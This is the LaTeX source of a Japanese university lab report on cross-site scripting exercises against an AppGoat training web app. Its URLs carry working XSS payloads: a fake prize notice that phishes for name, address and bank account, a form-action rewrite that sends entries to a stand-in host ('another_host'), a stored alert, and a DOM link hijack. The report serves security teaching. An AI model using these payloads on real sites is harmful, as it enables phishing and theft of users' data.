\documentclass[dvipdfmx,autodetect-engine,titlepage]{jsarticle}
\usepackage[dvipdfm]{graphicx}
\usepackage{ascmac}
\usepackage{fancybox}
\usepackage{listings}
\usepackage{plistings}
\usepackage{itembkbx}
\usepackage{amsmath}
\usepackage{url}
\usepackage{graphics}
\usepackage{here}

\lstset{
  basicstyle={\ttfamily},
  identifierstyle={\small},
  commentstyle={\smallitshape},
  keywordstyle={\small\bfseries},
  ndkeywordstyle={\small},
  stringstyle={\small\ttfamily},
  frame={tb},
  breaklines=true,
  columns=[l]{fullflexible},
  numbers=left,
  xrightmargin=0zw,
  xleftmargin=3zw,
  numberstyle={\scriptsize},
  stepnumber=1,
  numbersep=1zw,
  lineskip=-0.5ex
}

\textheight=23cm
\renewcommand{\figurename}{図}
\renewcommand{\tablename}{表}
\newenvironment{code}
{\vspace{0.5zw}\VerbatimEnvironment  \begin{screen} 
\baselineskip=1.0\normalbaselineskip
 \begin{Verbatim}}
{\end{Verbatim}
\baselineskip=\normalbaselineskip
 \end{screen}\vspace{0.5zw}} 

\title{セキュリティ・ネットワーク学実験3(B2)\\
Webアプリケーション脆弱性演習\\
}
\author{2600200087-2\\Oku Wakana\\奥 若菜}
\date{July 14 2022} 

\begin{document}

\maketitle

\section{クロスサイト・スクリプティング}
\subsection{脆弱性の概要および発見}
\subsubsection{クロスサイト・スクリプティングとは}
クロスサイト・スクリプティングの脆弱性とは、不正なスクリプトを何らかの手段でWebページに埋め込むことで、
その不正なスクリプトが被害者のブラウザ上で実行されてしまう脆弱性である。この脆弱性が利用されることで、偽のWebページが表示されたり、Cookieが不正に取得されるといった被害が発生する。\\
\subsubsection{脆弱性の発見手法}
HTMLで出力する時に「\textgreater」を「\&lt;」に置換するなど、特別な意味を持つ文字を、特別な意味を持たない表記文字に置換することをエスケープ処理と言う。
受け取った入力データを、エスケープ処理を行わずに画面に出力している箇所があれば、クロスサイト・スクリプティングの脆弱性となる。\\

\subsubsection{脆弱性の発見演習}
下の図1のより、脆弱性のあるプログラムの名前欄に「'\textgreater "\textgreater \textless hr\textgreater」と入力し、リクエスト送信したところ、出力画面に水平な線が表示された。
また、図2のより、対策が行われているプログラムに同じ入力を行ったところ、入力した文字列がそのまま表示された。\\
\begin{figure}[H]
  \centering
  
\includegraphics[scale=0.35]{web2.png}
  \caption{脆弱性のあるプログラム}\label{fig:図2}
\end{figure}

\begin{figure}[H]
  \centering
  
\includegraphics[scale=0.35]{web1.png}
  \caption{対策の行われているプログラム}\label{fig:図1}
\end{figure}

これらのフレーム内のソースコードを示した図3,4より、脆弱性のあるプログラムでは\textless hr\textgreater がタグとして扱われているのに対し、
対策の行われているプログラムでは、全てが文字列として扱われていることが分かる。\\
\begin{figure}[H]
  \centering
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    \fbox{
\includegraphics[keepaspectratio,scale=0.5]{web3.png}}
    \end{center}
    \caption{脆弱性のあるプログラム}
  \end{minipage}
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    \fbox{
\includegraphics[keepaspectratio,scale=0.5]{web4.png}}
    \end{center}
    \caption{対策の行われているプログラム}
  \end{minipage}
\end{figure}


 \\
\subsection{アンケートページの改ざん(反射型)}
反射型クロスサイト・スクリプティングの脆弱性とは、Webアプリケーションがユーザから受け取った入力データを、そのままの形(実行可能な形)でウェブページの出力に利用してしまう問題である。
今回はアンケートページの名前欄に反射型の脆弱性が発見できたため、名前欄に相当するパラメータである「name」の値を書き換え、作成したURLを名前欄に入力した。入力したURLは、「\url{http://appgoat.cysec-lab.org/Users/is0550kr/Web/Scenario1121/VulSoft/enquete.php?page=2&sex=0&old=1&company=&xss=1&trouble=1&content=&name=<script>document.getElementById("account").innerHTML = '<font color="blue" size="3">もれなく一万円をプレゼントいたします。名前、住所、口座番号を入力してください。</font>';</script>}」である。\\\\
下の図5,6はそれぞれ実行前と実行後のアンケートページの画面である。リクエストを送信することで、
「*のついている項目は入力必須です。」という注意書きを書き換えることができた。\\
\begin{figure}[H]
  \centering
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    
\includegraphics[keepaspectratio,scale=0.32]{web5.png}
    \end{center}
    \caption{実行前の画面}
  \end{minipage}
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    
\includegraphics[keepaspectratio,scale=0.33]{web6.png}
    \end{center}
    \caption{実行後の画面}
  \end{minipage}
\end{figure}

\subsection{入力情報の漏洩(反射型)}
投稿ボタンをクリックすると、ポップアップダイアログによって送信先を表示するようなアンケートページにおいて、送信先を変更するようなスクリプトを含むURLを作成し、名前欄に見つかった反射型の脆弱性を利用してスクリプトを実行させた。入力したURLは「\url{http://appgoat.cysec-lab.org/Users/is0550kr/Web/Scenario1122/VulSoft/enquete.php?page=2&sex=0&old=1&company=&xss=1&trouble=1&content=&name=<script>document.getElementById("enquete_form").action="http://another_host/private_info_storage.php";</script>
}」である。\\\\
下の図7,8はそれぞれ実行前と実行後で、表示されたポップアップをキャプチャしたものである。内容を見ると送信先のURLが書きかわっていることが確認できる。\\

\begin{figure}[H]
  \centering
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    
\includegraphics[keepaspectratio,scale=0.4]{web7.png}
    \end{center}
    \caption{実行前の画面}
  \end{minipage}
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    
\includegraphics[keepaspectratio,scale=0.4]{web8.png}
    \end{center}
    \caption{実行後の画面}
  \end{minipage}
\end{figure}

\subsection{掲示板に埋め込まれるスクリプト(格納型)}
格納型クロスサイト・スクリプティングの脆弱性とは、Webアプリケーションのデータ格納領域にユーザからの入力データに含まれる不正なスクリプトを永続的に格納してしまうことによって、ページを閲覧するごとにスクリプトが実行
されてしまう問題である。\\\\今回は掲示板サイトの本文欄に脆弱性が存在するため、下の図9のように、本文欄にスクリプト\url{<script>alert('Dialog by XSS')</script>}を書き込んで投稿した。これにより、図10のように、ユーザが掲示板にアクセスするたびに、ポップアップダイアログが表示されるようになった。

\begin{figure}[H]
  \centering
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    
\includegraphics[keepaspectratio,scale=0.32]{web9.png}
    \end{center}
    \caption{入力の様子}
  \end{minipage}
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    
\includegraphics[keepaspectratio,scale=0.32]{web10.png}
    \end{center}
    \caption{実行結果}
  \end{minipage}
\end{figure}


\subsection{Webページの改ざん(DOMベース)}
DOMベースのクロスサイト・スクリプティングの脆弱性とは、DOM(Document Object Model)を利用しているスクリプトが、DOMツリーに存在する不正なスクリプトをウェブページの表示に利用してしまうことによって、スクリプトが実行されてしまう問題である。\\\\
今回はウェブ検索ページの検索キーワード欄に脆弱性が存在するため、それに相当するパラメータである「keyword」の値をスクリプトに書き換え、作成したURLを検索キーワード欄に入力した。実際に入力したURLは、「\url{http://appgoat.cysec-lab.org/Users/is0550kr/Web/Scenario1124/VulSoft/search.php?keyword=<script>document.getElementById('link0').href="http://www.ritsumei.ac.jp/ct/"</script>&submit=%E6%A4%9C%E7%B4%A2&page=1}」である。\\\\
下の図11,12のように、脆弱性が利用されスクリプトが実行されることで、検索結果に表示される「セッション管理」のリンク先を「manaba+R」のページに置き換えることができた。\\

\begin{figure}[H]
  \centering
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    
\includegraphics[keepaspectratio,scale=0.32]{web11.png}
    \end{center}
    \caption{実行結果}
  \end{minipage}
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
